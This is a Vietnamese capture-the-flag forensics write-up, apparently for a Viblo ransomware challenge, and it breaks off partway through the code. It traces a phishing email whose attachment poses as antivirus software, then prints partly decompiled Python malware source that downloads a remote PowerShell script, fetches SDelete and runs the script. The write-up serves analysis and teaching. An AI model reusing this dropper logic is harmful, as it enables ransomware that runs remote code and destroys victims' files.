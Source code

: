## Description
> Một nữ nhiên viên văn phòng ở công ty V đã nhận được một bức thư. Sau khi mở bức thư đó cùng với một tệp đính kèm, máy của cô nhân viên này đã có một số hoạt động bất thường cùng với đó là một file tài liệu rất quan trọng của cô ấy đã biến mất. Là một nhân viên phòng SOC, hãy giúp cô ấy tìm ra nguyên nhân và khôi phục lại file quan trọng đó. Format flag: flag{the_flag}

> Đề bài này liên quan đến vấn đề Ransomware. Người dùng vui lòng lưu ý rằng cần thực hiện trên máy ảo. Nếu chạy trên máy thật và gặp phải bất kỳ sự cố nào, Viblo CTF sẽ không chịu trách nhiệm.
## Solution
##### Challenge này cung cấp cho chúng ta 1 file disk có tên `Evidence.ad1`, load vào FTK imager để phân tích.
##### Tại đường dẫn Document/Outlook của user tamin ta dễ dàng tìm thấy 1 file email
![image](https://hackmd.io/_uploads/Hkz2FWpr1g.png)
##### Sử dụng các công cụ mở file eml online hoặc outlook để xem nội dung của thư
![image](https://hackmd.io/_uploads/Bys65ZTHkg.png)
##### Email được gửi với tệp đính kèm được attacker giả mạo là phần mềm diệt virus, tải xuống và giải nén ta thu được 1 file thực thi sử dụng PyInstaller 
![image](https://hackmd.io/_uploads/ryirhW6Hkx.png)
##### Tiến hành decompile để xem src gốc của nó bằng https://pyinstxtractor-web.netlify.app và https://pylingual.io. Và đây là mã nguồn
```python
import os
import requests
import subprocess
import zipfile
current_dir = os.path.dirname(os.path.abspath(__file__))
ps_script_url = 'https://raw.githubusercontent.com/TMQrX/temp/master/Qwertyu.ps1'
ps_script_path = os.path.join(current_dir, 'ps.ps1')
sdelete_zip_url = 'https://download.sysinternals.com/files/SDelete.zip'
sdelete_zip_path = os.path.join(current_dir, 'SDelete.zip')
sdelete_exe_path = os.path.join(current_dir, 'sdelete.exe')
flag_file_path = 'C:\\flag.txt'
temp_encrypt_folder = os.path.join(os.getenv('TEMP'), 'encrypt')

def download_file(url, destination):
Unsupported opcode: BEFORE_WITH
    response = requests.get(url)
# WARNING: Decompyle incomplete


def extract_sdelete(zip_path, extract_to):
Unsupported opcode: BEFORE_WITH
    pass
# WARNING: Decompyle incomplete


def execute_powershell_script(script_path):
    process = subprocess.run([
        'powershell.exe',
        '-File',
        script_path], capture_output = True, text = True)
    output = process.stdout.splitlines()
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
```